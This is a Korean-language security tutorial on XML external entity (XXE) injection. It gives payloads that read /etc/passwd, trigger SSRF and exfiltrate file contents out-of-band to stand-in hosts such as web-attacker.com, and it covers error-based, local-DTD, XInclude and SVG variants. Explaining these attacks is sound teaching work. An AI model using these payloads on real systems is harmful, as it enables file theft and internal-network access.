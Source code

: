 ```yaml
---
title: XXE
desc: What is XXE?
date: 2024-11-09
thumbnail: /web_basic_thumbnail.jpg
---
```

## What's XXE Injection?

![](/posts/basic_skill/xxe/0.png)

XXE 취약점은 XML을 사용하는 서비스에서 발생할 수 있는 취약점입니다.
XXE 공격이 이루어지는 방식은 XML을 Parsing해서 사용하는 서비스에 악의적인 XML 구문을 입력하여 공격자가 원하는 동작을 수행 시키는 방입니다. 
따라서 XML Parser가 존재하는 곳부터 영향력이 발생하게 되어 SSRF, RCE 등이 발생할 수 있으므로 위험한 취약점이라고 볼 수 있습니다.

---
## Background

### XML?

XML은 Extensible Markup Language의 약자입니다. 한마디로 다목적 마크업 언어이다.
XML은 인터넷이 연결된 서비스끼리 데이터를 용이하게 전달하기 위해 개발되었다.
XML은 웹사이트, 데이터베이스, SOAP 통신 프로토콜 등 많은 곳에서 사용된다.

XML의 자세한 정보
https://bobong.blog/post/Development/XML

---
## Basic Attack

### Exploiting XXE to retrieve files

XXE 취약점을 이용해서 서버에 존재하는 파일을 읽을 수 있습니다.

XML을 제출하여 유저의 이름으로 정보를 조회할 수 있는 상황을 가정해 봅시다.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<USER><name>bobong</name></USER>
```

/etc/passwd 파일을 외부 ENTITY에 정의하고 해당 ENTITY를 name 값에 사용합니다.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<USER><name>&xxe;</name></USER>
```

서비스에 별다른 방어 수단이 존재하지 않는다면 아래와 같이 응답을 통해 /etc/passwd 값이 포함 될 수 있습니다.

```text
User Name : root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

### Exploiting XXE to perform SSRF attacks

XML의 ENTITY에서 URL를 통한 참조가 가능하기 때문에 SSRF가 발생할 수 있습니다.

아래와 같은 코드가 XML Parser를 통해 읽어지게 되면 내부 서버에서 직접 http요청을 하기 때문에 SSRF 취약점이 발생할 수 있습니다.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://hacker.com/"> ]>
<USER><name>&xxe;</name></USER>
```

### Blind XXE

Blind XXE는 에플리케이션에서 XXE 취약점이 존재하지만 외부 ENTITY값을 반환하지 않는 경우에 발생합니다.  2가지 방법을 통해 Blind XXE 취약점을 공격할 수 있습니다.

**OAST & OOB**

Out of Band는 외부 채널을 이용하여 XXE 구문을 보내는 기법입니다.

아래 Interactsh는 무료로 OOB를 지원해줍니다.
https://app.interactsh.com/#/

아래는 기본적으로 OOB를 이용한 Blind XXE Injection을 하는 방법입니다.

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

**Error-Basd XXE**

ENTITY 선언 과정 중 오류를 임의로 발생 시키는데, 발생 시키는 에러에 원하는 정보를 담아 읽는 방법 입니다. Error-Base XXE는 크게 두 가지 방법이 있습니다. 해당 방법들은 XML을 파싱하는 부분에서 에러 메세지를 보여주는지 확인 후 진행하면 좋습니다.

첫번째 방법은 `malicious.dtd` 파일을 작성하고 OOB 방식을 통해 DTD 파일을 참조 시켜 정보가 담긴 에러 메세지를 받는 방법입니다.

malicious.dtd
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
payload
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

두번째 방법으로는 OOB 방식이 막혀 사용할 수 없을 때 사용할 수 있습니다. XML Parser가 작동되는 시스템 내부에 존재하는 다른 DTD 파일을 참조해서 XXE 취약점을 발생시킵니다. 
예를 들어 `/usr/local/app/hi.dtd`가 존재하고, 해당 DTD 파일에는 `hello`라는 ENTITY가 선언되어 있다고 볼 때 `hello` ENTITY에 에러 발생 구문을 재선언하여 Exploit 할 수 있습니다.

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/hi.dtd">
<!ENTITY % hello '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
시스템 내부에 존재하는 DTD 파일을 탐지하는 방법은 존재할 수도 있는 DTD 파일 리스트를 가지고  Brute-force를 통해 확인할 수 있습니다.

DTD List
https://github.com/GoSecure/dtd-finder/tree/master/list

### XInclude XXE

XInclude는 XML 문서에서 다른 XML 문서나 일반 텍스트 파일을 포함할 수 있는 메커니즘을 제공하는 XML 확장입니다. 이를 통해 하나의 XML 문서에서 다른 XML 문서의 일부를 가져와 재사용할 수 있습니다.

XInclude XXE Payload

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

### SVG XXE

SVG는 XML 포맷을 이용하여 구성되어있습니다. 따라서 SVG를 업로드 시킬 수 있는 곳이 있다면 XXE 취약점이 존재할 수 있습니다.

SVG XXE Payload

```xml
<?xml version="1.0" standalone="yes"?>
	<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
		<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
			<text font-size="16" x="0" y="16">&xxe;</text>
		</svg>
```
---
## Reference
https://www.hahwul.com/cullinan/xxe/
https://portswigger.net/web-security/xxe
https://github.com/EdOverflow/bugbounty-cheatsheet/blob/master/cheatsheets/xxe.md
https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity

---
## Lab
https://gosecure.github.io/xxe-workshop/#0